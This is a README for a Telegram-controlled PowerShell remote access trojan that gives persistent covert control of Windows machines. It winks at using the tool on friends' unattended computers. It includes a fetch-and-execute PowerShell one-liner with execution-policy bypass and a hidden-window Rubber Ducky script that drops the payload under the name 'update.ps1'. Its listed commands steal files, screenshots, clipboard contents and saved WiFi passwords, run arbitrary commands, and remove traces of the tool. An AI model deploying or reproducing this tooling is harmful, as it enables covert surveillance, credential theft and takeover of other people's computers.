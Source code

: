 ## ⚠️ DISCLAIMER

> [!WARNING]
> **This script is for educational purposes only. Do NOT use it on systems you do not own or have explicit permission to test. Misuse may be illegal and can have serious consequences.**

# Telegram-Controlled PowerShell Script

**Get persistent remote control access through Telegram commands.**
Don't use it when your friends are away from their computer 🤫
This script allows you to control a Windows system remotely through Telegram, offering various functionalities like taking screenshots, sending files, recording audio/video, locking or restarting the system, and more.

## 🛠 Prerequisites

* Windows 10 or newer
* PowerShell 5 or later (built-in)
* Internet connection
* A Telegram bot token (from [@BotFather](https://t.me/BotFather))
* Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

### 📥 How to Create a Telegram Bot

1. Open Telegram and search for `@BotFather`.
2. Start a conversation and type `/newbot` to create a new bot.
3. Follow the instructions to set a name and username for your bot.
4. After completion, you will receive a **bot token** which you'll use in the script.

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

### Powershell (Permanent fix)

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```

### Powershell (One-time fix for your session)

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```

### Powershell pipeline

```powershell
iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP\prankware.ps1; powershell -ep bypass -File $env:TEMP\prankware.ps1
```

### Hidden PowerShell Ducky Script EXAMPLE
```txt
GUI r
DELAY 300
STRING powershell -WindowStyle Hidden -ep bypass -Command iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP/update.ps1; powershell -ep bypass -File $env:TEMP/update.ps1
ENTER
```
---

## 📌 Available Commands

### System Control

* `/lock` → Locks the workstation.
* `/restart` → Restarts the computer.
* `/shutdown` → Shuts down the computer.
* `/notepad` → Opens Notepad.
* `/pcname` → Shows the computer name.
* `/ip` → Shows local and public IP addresses.
* `/screenshot` → Takes a screenshot and sends it to the chat.
* `/sendfile <path>` → Sends a file from the local disk.
* `/sendfolder <path>` → Sends a zipped folder.
* `/visit <url>` → Opens a URL in the default browser.
* `/screenshot`  →  Sends a screenshot.

### Navigation and File Operations

* `cd <path>` → Change directory.
* `cd` → Show current directory.
* `ls` or `dir` → List files/folders in current directory.
* `/delete <path>` → Delete a file or folder.
* `/rename <old> <new>` → Rename or move a file/folder.

### Monitoring & Processes

* `/processes` → List running processes.
* `/kill <pid>` → Kill process by PID.
* `/tasklist` → Top 25 processes by memory usage.
* `/taskkill <name>` → Kill processes by name.
* `/services` → List running services.

### Clipboard & System Info

* `/getclipboard` → Get text from clipboard.
* `/setclipboard <text>` → Set text to clipboard.
* `/sysinfo` → System details (CPU, RAM, OS, disk).
* `/wifi` → List saved WiFi networks + passwords.

### Other

* `/help` → Shows all commands.
* `/selfdestruct` → Removes persistence and deletes the script.
* `/cmd <command>` → Run CMD command.
* `/powershell <command>` → Run PowerShell command.

---


